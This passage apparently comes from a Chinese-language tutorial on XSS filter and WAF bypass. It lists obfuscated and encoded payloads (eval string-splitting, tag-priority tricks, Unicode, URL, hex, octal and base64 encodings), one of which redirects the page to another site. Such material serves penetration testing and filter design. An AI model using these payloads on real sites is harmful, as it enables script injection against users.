 利用eval

<img src\="x" onerror\="a=\`aler\`;b=\`t\`;c='(\`xss\`);';eval(a+b+c)"\>

利用top

    <script>top["al"+"ert"](`xss`);</script>

### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

    可利用注释、标签的优先级等
    1.<<script>alert("xss");//<</script>
    2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
    3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>

### 编码绕过

Unicode编码绕过

<img src\="x" onerror\="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"\>

<img src\="x" onerror\="eval('\\u0061\\u006c\\u0065\\u0072\\u0074\\u0028\\u0022\\u0078\\u0073\\u0073\\u0022\\u0029\\u003b')"\>

url编码绕过

<img src\="x" onerror\="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"\>

    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过

<img src\="x" onerror\="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))"\>

hex绕过

    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制

    <img src=x onerror=alert('\170\163\163')>

base64绕过

    <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

过滤双引号，单引号
---------

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号
